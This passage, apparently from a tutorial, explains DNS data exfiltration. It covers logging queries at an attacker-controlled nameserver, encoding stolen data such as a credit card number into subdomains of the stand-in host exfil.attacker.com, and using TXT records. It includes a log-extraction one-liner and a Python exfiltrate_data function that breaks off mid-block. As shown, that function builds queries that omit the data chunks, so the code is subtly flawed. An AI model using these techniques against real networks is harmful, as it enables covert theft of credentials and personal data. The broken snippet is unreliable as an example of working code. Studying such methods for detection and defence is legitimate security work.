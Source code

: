 2. This query passes through the organization's DNS server, the ISP's DNS server, and ultimately reaches the attacker's authoritative nameserver via the DNS hierarchy.

3. The attacker's nameserver logs this request and returns a response (which may not be important).

4. The attacker extracts the exfiltrated data by analyzing nameserver logs:
   ```bash
   # Log analysis example
   grep "stolen" /var/log/named/queries.log | cut -d '.' -f1 > extracted_data.txt
   ```

## DNS Data Exfiltration Techniques

### 1. Basic Data Encoding via DNS Queries

The most basic form of DNS data exfiltration works as follows:

```
stolen-data.attacker-controlled-domain.com
```

For example, to exfiltrate a credit card number `4111-1111-1111-1111`:
```
4111-1111-1111-1111.exfil.attacker.com
```

When such queries are sent to DNS servers, the attacker can log these requests on their controlled authoritative nameserver and extract the data.

### 2. Subdomain Encoding

For exfiltrating large amounts of data, the data is split across multiple subdomains:

```
part1-of-data.exfil.attacker.com
part2-of-data.exfil.attacker.com
part3-of-data.exfil.attacker.com
```

### 3. Various Encoding Techniques

The following encoding methods can be used for data exfiltration:

* **Base64 encoding**: Converts binary data to ASCII text
* **Hex encoding**: Converts data to hexadecimal
* **Bit-level splitting**: Splits data at the bit level for transmission

### 4. Utilizing DNS Record Types

Various DNS record types can be used to increase data transmission capacity:

* **TXT records**: Can store up to 255 characters of text data
* **NULL records**: Can contain arbitrary binary data
* **CNAME records**: Specifies aliases for domain names
* **MX records**: Specifies mail server information

Example code (data exfiltration using TXT records):
```python
import dns.resolver
import base64

def exfiltrate_data(data, domain="exfil.attacker.com"):
    encoded_data = base64.b64encode(data.encode()).decode()
    # Split data into 255-character chunks
    chunks = [encoded_data[i:i+255] for i in range(0, len(encoded_data), 255)]
    
    for i, chunk in enumerate(chunks):
        query = f"chunk{i}.{domain}"
        try:
            dns.resolver.resolve(query, 'TXT')
```